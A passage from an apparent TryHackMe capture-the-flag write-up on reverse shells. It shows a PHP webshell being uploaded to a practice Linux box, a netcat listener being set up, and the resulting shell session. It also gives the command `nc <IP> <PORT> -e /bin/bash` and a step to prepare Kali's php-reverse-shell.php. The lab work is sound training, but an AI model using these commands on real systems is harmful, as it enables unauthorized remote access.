 #### Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.
- Upload our PHP webshell.
    <center><a href="/assets/images/tryhackme/whats-the-shell/1.png"><img src="/assets/images/tryhackme/whats-the-shell/1.png"></a></center>
- Set up our listener.
    ```bash
    $ nc -lnvp 9999                             
    listening on [any] 9999 ...
    ```
- Visit our webshell at `10.10.194.64/uploads/shell.php`.
- We got reverse shell.
    ```bash
    $ nc -lnvp 9999                             
    listening on [any] 9999 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.194.64] 50542
    Linux linux-shell-practice 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
    10:28:13 up 9 min,  1 user,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    shell    pts/0    10.11.25.205     10:20    6:13   0.03s  0.03s -bash
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    www-data
    ```

#### Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.
- Change the IP and port.